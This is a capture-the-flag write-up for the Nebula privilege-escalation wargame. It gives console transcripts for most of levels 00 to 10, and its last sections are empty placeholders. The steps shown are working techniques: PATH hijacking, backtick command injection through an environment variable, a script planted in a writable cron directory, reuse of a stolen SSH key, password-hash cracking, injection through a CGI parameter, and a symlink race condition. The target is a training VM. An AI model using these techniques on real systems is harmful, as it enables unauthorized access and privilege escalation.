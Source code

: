 Nebula Writeup
==============

## 00
```console
level00@nebula:~$ find / -nowarn -perm +04000 -user flag00 2> /dev/null 
/bin/.../flag00
/rofs/bin/.../flag00
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ /bin/getflag 
You have successfully executed getflag on a target account
```

## 01
```console
level01@nebula:~$ ln -s /bin/getflag echo
level01@nebula:~$ PATH=.:$PATH /home/flag01/flag01
You have successfully executed getflag on a target account
```

## 02
```console
level02@nebula:~$ USER="\`/bin/getflag\`" /home/flag02/flag02 
You have successfully executed getflag on a target account is coolo
```

## 03
```console
level03@nebula:~$ cat run.sh 
#!/bin/bash
/bin/getflag > /tmp/flag03.out
level03@nebula:~$ chmod +x run.sh 
level03@nebula:~$ cp run.sh ../flag03/writable.d/
level03@nebula:~$ watch ls -l  ../flag03/writable.d/ /tmp
level03@nebula:~$ more /tmp/flag03.out 
You have successfully executed getflag on a target account
```

### 04
```console
level04@nebula:~$ ln -s ../flag04/token link
level04@nebula:~$ ../flag04/flag04 link 
06508b5e-8909-4f38-b630-fdb148a848a2
```

## 05 
```console
ls -la ../flag05/
total 5
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
ls -la ../flag05/.backup:
total 2
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
level05@nebula:~$ cp ../flag05/.backup/backup-19072011.tgz ./
level05@nebula:~$ tar xvf backup-19072011.tgz 
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ ssh -i .ssh/id_rsa flag05@localhost
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## 06
```console
imac:run gwyn$ cat passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
imac:run gwyn$ ./john passwd
Warning: detected hash type "descrypt", but the string is also recognized as "descrypt-opencl"
Use the "--format=descrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2-16])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 DONE 2/3 (2018-04-01 12:36) 25.00g/s 425700p/s 425700c/s 425700C/s 123456..betabeta
Use the "--show" option to display all of the cracked passwords reliably
Session completed
...
level06@nebula:~$ su - flag06
Password: 
flag06@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## 07
```console
level07@nebula:~$ wget -O - http://127.0.0.1:7007/index.cgi?Host="-c 0 localhost | getflag"
--2018-04-03 14:18:19--  http://127.0.0.1:7007/index.cgi?Host=-c%200%20localhost%20%7C%20getflag
Connecting to 127.0.0.1:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `STDOUT'

    [<=>                                                       ] 0           --.-K/s              <html><head><title>Ping results</title></head><body><pre>You have successfully executed getflag on a target account
    [ <=>                                                      ] 136         --.-K/s   in 0.003s  

2018-04-03 14:18:19 (50.8 KB/s) - written to stdout [136]
```

## 08
Locate the pcap capture file, copy it off to a system where you can run Wireshark on it.

Within Wireshark, follow the TCP stream, although you'll need to switch "Show data as" to "Hex Dump" to see that the '.'s are 7f's, i.e. DELs
```console
level08@nebula:~$ su - flag08
Password: 
flag08@nebula:~$ getflag 
You have successfully executed getflag on a target account
flag08@nebula:~$ 
```

## 09
I skipped this one, after some initial investigations

## 10
This one's a "time-of-use to time-of-check" vulnerability and relies on swapping the target between the access check and the open calls.
My instinct is to try for a one-shot approach, but actually, the required info can be easiest obtained by having 3 processes going, as follows:
1. This is simply a network listener set to keep listening - `nc -lk 18211`
2. This is process continuously loops trying to read a target - `while true; do ../flag10/flag10 target 127.0.0.1; done`
3. While this process continuously swaps the target between pointing to an accessable file and the token file - `while true; do ln -sf dummy target; ln -sf ../flag10/token target; done` 

Quite quickly, you should see the token on the console of process 1...
```console
.oO Oo.
dummy
.oO Oo.
dummy
.oO Oo.
dummy
.oO Oo.
dummy
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
dummy
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
...
```

## nn
```console

```

## nn
```console

```

## nn
```console

```

## nn
```console

```

## nn
```console

```

## nn
```console

```

## nn
```console

```

## nn
```console

```

## nn
```console

```

## nn
```console

```

